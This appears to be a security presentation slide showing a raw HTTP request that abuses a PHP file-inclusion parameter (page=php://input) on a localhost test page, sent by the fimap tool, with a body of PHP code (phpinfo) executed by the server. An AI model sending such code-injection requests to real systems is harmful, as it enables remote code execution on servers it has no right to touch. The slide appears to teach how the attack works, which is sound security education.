

# php://input stream example
POST /fitest/rfi.php?page=php://input HTTP/1.1
Accept-Encoding: identity
Content-Length: 81
Accept-Language: en-us,en;q=0.5
Connection: close
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: fimap.googlecode.com/v09_svn
Host: localhost
Content-Type: application/x-www-form-urlencoded

<?php phpinfo(); ?>